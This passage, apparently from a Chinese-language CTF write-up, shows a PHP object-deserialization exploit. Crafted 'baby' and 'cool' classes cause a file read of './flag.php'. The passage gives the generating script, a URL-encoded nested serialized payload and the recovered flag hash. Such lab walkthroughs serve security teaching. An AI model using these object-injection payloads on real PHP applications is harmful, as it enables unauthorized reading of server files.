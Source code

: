 构造出如下序列化<br>[![](https://p5.ssl.qhimg.com/t01c01f0fbe754d2a21.png)](https://p5.ssl.qhimg.com/t01c01f0fbe754d2a21.png)<br>
最后得到完整exp

```
&lt;?php  
class baby 
`{`   
    protected $skyobj;    
    public $aaa;
    public $bbb;
    function __construct() 
    `{`          
        $this-&gt;skyobj = new cool;   
    `}`  
    function __toString()      
    `{`          
        if (isset($this-&gt;skyobj))  
        `{`
            return $this-&gt;skyobj-&gt;read();      
        `}`
    `}`  
`}`  
class cool 
`{`    
    public $filename='./flag.php';     
    public $nice;
    public $amzing='O%3A4%3A%22baby%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00skyobj%22%3BO%3A4%3A%22cool%22%3A3%3A%7Bs%3A8%3A%22filename%22%3BN%3Bs%3A4%3A%22nice%22%3BN%3Bs%3A6%3A%22amzing%22%3BN%3B%7Ds%3A3%3A%22aaa%22%3BN%3Bs%3A3%3A%22bbb%22%3BR%3A6%3B%7D'; 
`}`   
$a = new baby();
// $a-&gt;bbb =&amp;$a-&gt;aaa;
echo urlencode(serialize($a));
?&gt;
```

生成payload

```
O%3A4%3A%22baby%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00skyobj%22%3BO%3A4%3A%22cool%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A10%3A%22.%2Fflag.php%22%3Bs%3A4%3A%22nice%22%3BN%3Bs%3A6%3A%22amzing%22%3Bs%3A227%3A%22O%253A4%253A%2522baby%2522%253A3%253A%257Bs%253A9%253A%2522%2500%252A%2500skyobj%2522%253BO%253A4%253A%2522cool%2522%253A3%253A%257Bs%253A8%253A%2522filename%2522%253BN%253Bs%253A4%253A%2522nice%2522%253BN%253Bs%253A6%253A%2522amzing%2522%253BN%253B%257Ds%253A3%253A%2522aaa%2522%253BN%253Bs%253A3%253A%2522bbb%2522%253BR%253A6%253B%257D%22%3B%7Ds%3A3%3A%22aaa%22%3BN%3Bs%3A3%3A%22bbb%22%3BN%3B%7D
```

最后可以得到<br>[![](https://p2.ssl.qhimg.com/t01e345dcd1f1496d68.png)](https://p2.ssl.qhimg.com/t01e345dcd1f1496d68.png)<br>
即

```
bd75a38e62ec0e450745a8eb8e667f5b
```
